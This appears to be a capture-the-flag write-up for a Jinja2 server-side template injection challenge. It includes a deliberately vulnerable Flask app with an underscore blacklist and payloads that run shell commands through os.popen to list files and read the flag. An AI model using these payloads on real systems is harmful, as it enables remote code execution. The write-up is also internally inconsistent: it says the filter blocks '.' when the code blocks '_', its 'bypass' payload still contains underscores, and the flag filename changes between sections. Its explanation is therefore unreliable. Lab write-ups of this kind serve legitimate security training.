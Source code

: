 # SSTI-Easy 2

### Difficulty: Easy

### Objective: Bypass blacklisted ("_")

## Setting Up

Ensures that `Docker` is installed into your machine as this challenge requires Docker. If you're unsure how to do it, you can refer [here](https://www.kali.org/docs/containers/installing-docker-on-kali/) to install it into your Kali machine. Then, install the files `app.py` , `Dockerfile` and `flag-d3a358c6bff2c9f7412e5485b3e2cd2e.txt` into the same directory.

### Commands (Kali)
[1] `sudo docker build -t sstichall .`

[2] `sudo docker run -d sstichall`

[3] `sudo docker logs <The container id>`

Use the first IP provided by the command [3] to access the challenge as highlighted below.

![image](https://github.com/user-attachments/assets/a2dc8099-2cb9-42d9-a8d2-c34d04b245e8)

Challenge should look like this and you are ready to go!

![image](https://github.com/user-attachments/assets/71d4d057-c35f-4c21-b28f-efaa2f35bff9)

## Solution 
<details>

The challenge starts with a text box and allows user input. Then, we starts with the a simple text "hello world" and observe its response.

![image](https://github.com/user-attachments/assets/8c6da092-9fc2-4a3b-9054-d900ca44c47d)

The website seems to return our text back as a response. 

![image](https://github.com/user-attachments/assets/03732c9a-86e7-4042-9ea6-9877e978db85)

Let's try using a simple SSTI payload `{{7*7}}` and observe its behaviour.

![image](https://github.com/user-attachments/assets/d853ed2f-3c60-48bd-880a-be6fa23756ca)

The website returns `49`! That means it is vulnerable to SSTI.

![image](https://github.com/user-attachments/assets/26b6ae54-1bfe-4884-9df2-66fe944dbcea)

Let's use a SSTI payload like `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` and get our flag!

![image](https://github.com/user-attachments/assets/579ab938-dac5-4d4a-8aed-3edd8ad37819)

Wait but the website prevented us from using the payload.

![image](https://github.com/user-attachments/assets/01fb2f5e-312b-48a1-b6b6-ffc1ceec65d7)

That's weird, it supposed to work. Let's inspect and analyze the provided source code.

### Source Code (python)
```python

from flask import Flask, request, url_for, render_template_string
import re

app=Flask(__name__)

blacklisted=[r"\_"]

@app.route('/', methods=('GET','POST'))
def index():
        if request.method=='POST':
                note=request.form['note']
                if sanitize(note):
                        return render_template_string(note)
                else:
                        return('Please provide valid text')
        return '''
                <form method="POST">
                        Note:<input type="text" name="note">
                        <input type="submit" value="Submit">
                </form>
        '''

def sanitize(x):
        for i in blacklisted:
                if re.findall(i,x):
                        return False
        return True

if __name__=='__main__':
        app.run(host='0.0.0.0',port= 5000,debug=True)  

```

The website is confirmed to be vulnerable to SSTI (Jinja 2) as the source code contains the function `render_template_string`. However, there is a function that seems to be preventing us from reaching the vulnerable function which is the `sanitize()`. It will return boolean `False` when it detected the strings contains "." which can prevent a regular SSTI payload. We can use another SSTI payload to bypass this sanitization by replacing "." with square brackets.

`{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}}`

![image](https://github.com/user-attachments/assets/531cce88-b3fe-46fb-8f07-1e2c3d123338)

Let's submit this payload and see what happens.

![image](https://github.com/user-attachments/assets/d3cbfda0-eee2-4e8c-bc99-04ec01dc5b8c)

And it works! We can view all the files contain inside the server directory. Let's try to view the flag using command:

`{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag-923a4ee403778170c879557425f22848.txt')['read']()}}`

![image](https://github.com/user-attachments/assets/c43644b2-a538-469d-89e3-7b2290c0d623)


## Flag
>flag{c2ea5e9e00acde74027b2ad8cf5583bd}

</details>
